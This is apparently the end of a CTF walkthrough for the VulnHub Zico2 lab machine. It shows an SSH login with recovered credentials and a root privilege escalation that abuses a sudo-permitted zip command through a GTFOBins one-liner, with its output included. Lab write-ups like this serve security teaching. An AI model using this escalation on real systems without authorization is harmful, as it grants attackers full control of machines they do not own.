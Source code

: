 We use these credentials to log in via SSH:

```bash
┌──(kali㉿kali)-[~/vulnhub/zico2]
└─$ ssh zico@192.168.56.106 
zico@192.168.56.106's password: 
zico@zico:~$ 
```

### Privilege Escalation to Root

We check Zico's sudo privileges:

```bash
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

Zico can run `zip` with sudo privileges. We can exploit this using a technique from [GTFOBins](https://gtfobins.github.io/#):

```bash
zico@zico:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 35%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

We have successfully escalated to root!

## Conclusion

This walkthrough demonstrated the process of compromising the Zico2 machine, starting from initial reconnaissance, exploiting a web application vulnerability, and finally escalating privileges to root. Remember, these techniques should only be used in authorized, ethical hacking scenarios or on your own systems for educational purposes.
